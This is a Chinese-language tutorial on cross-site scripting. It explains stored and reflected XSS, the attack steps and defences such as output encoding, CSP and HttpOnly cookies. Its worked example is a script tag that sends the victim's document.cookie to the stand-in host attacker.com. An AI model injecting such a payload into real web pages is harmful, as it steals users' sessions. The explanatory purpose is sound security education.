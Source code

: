 # XSS

XSS（Cross-Site Scripting，跨站脚本）是一种常见的web应用程序漏洞，攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。这种攻击利用了网站对用户输入数据的信任。

以下是XSS攻击的基本步骤和原理：

1. 漏洞存在：
   网站允许用户输入数据（如评论、用户名、搜索框等），但没有正确地过滤或转义这些输入。[2]

2. 攻击者注入恶意代码：
   攻击者在输入字段中插入包含JavaScript代码的文本。例如，在评论框中输入：
   ```html
   <script>alert('You've been hacked!');</script>
   ```

3. 网站存储或反射输入：
   - 存储型XSS：网站将未经处理的输入保存到数据库中。
   - 反射型XSS：网站直接在响应中包含未经处理的输入。[3]

4. 受害者访问页面：
   当其他用户访问包含恶意脚本的页面时，浏览器会解释并执行这些脚本。

5. 恶意脚本执行：
   脚本在受害者的浏览器中运行，可能会：
   - 窃取用户的cookie或会话信息
   - 重定向用户到钓鱼网站
   - 在页面上显示虚假内容
   - 执行其他恶意操作[4]

举个具体的例子：

假设有一个社交网站允许用户发布状态更新。攻击者可能会发布以下状态：

```html
今天天气真好！<script>var img = new Image(); img.src = "http://attacker.com/steal?cookie=" + document.cookie;</script>
```

如果网站没有正确处理这个输入，当其他用户查看这个状态时，隐藏的脚本会执行，将受害者的cookie发送到攻击者的服务器。[5]

防御措施：
1. 输入验证：过滤用户输入，移除或转义特殊字符。
2. 输出编码：在显示用户输入时进行适当的HTML编码。
3. 使用内容安全策略（CSP）：限制可以加载和执行的资源。
4. HttpOnly标志：防止JavaScript访问cookie。
5. 定期安全审计和渗透测试。[2], [4]

总之，XSS攻击利用了网站对用户输入的信任和不当处理。通过实施proper输入验证和输出编码，大多数XSS漏洞是可以被预防的。